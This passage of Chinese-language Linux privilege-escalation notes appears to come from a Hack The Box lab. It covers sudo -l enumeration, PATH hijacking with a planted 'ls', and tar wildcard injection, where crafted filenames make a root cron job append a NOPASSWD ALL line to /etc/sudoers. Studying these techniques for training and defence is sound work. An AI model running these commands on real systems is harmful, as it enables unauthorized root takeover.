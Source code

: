 ```shell
# 查看当前用户具有的 sudo 权限，有时候我们可能需要知道用户的密码才能列出 sudo 权限
sudo -l
	Matching Defaults entries for sysadm on NIX02:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User sysadm may run the following commands on NIX02:
    (root) NOPASSWD: /usr/sbin/tcpdump
```

### 6. PATH 滥用

> PATH 是一个环境变量，指定可执行文件所在的目录集

```shell
# 查看 PATH 环境变量
echo $PATH
```

我们可以通过修改用户的 PATH 变量，来使其运行一个二进制文件

```shell
# 这个示例是将当前路径加入到 PATH 中。然后在当前路径添加一个 ls 可执行文件，就可以使用 ls
htb_student@NIX02:~$ PATH=.:${PATH}
htb_student@NIX02:~$ export PATH
htb_student@NIX02:~$ echo $PATH
htb_student@NIX02:~$ touch ls
htb_student@NIX02:~$ echo 'echo "PATH ABUSE!!"' > ls
htb_student@NIX02:~$ chmod +x ls
htb_student@NIX02:~$ ls
	PATH ABUSE!!
```

### 7. 通配符滥用

> 这里我们使用 tar 作为解释

```shell
htb_student@NIX02:~$ man tar

<SNIP>
Informative output
       --checkpoint[=N]
              每 N 条记录显示进度消息（默认 10）
       --checkpoint-action=ACTION
              在每个检查点上运行 ACTION
```

\--checkpoint-action 选项允许在到达检查点时执行 EXEC 操作（即，在 tar 命令执行后运行任意操作系统命令。）通过使用这些名称创建文件，当指定通配符时，-- checkpoint=1 和 --checkpoint-action=exec=sh root.sh 作为命令行选项传递给 tar,实践如下：

```shell
# 创建一个 cron 作业，每分钟备份 /toot 目录内容早 /tmp 中
*/01 * * * * cd /tmp && tar -zcf /tmp/backup.tar.gz *

htb_student@NIX02:~$ echo 'echo "cliff.moore ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > root.sh
htb_student@NIX02:~$ echo "" > "--checkpoint-action=exec=sh root.sh"
htb_student@NIX02:~$ echo "" > --checkpoint=1

# 当执行后，我们就可以查看是否提升了权限
sudo -l
```
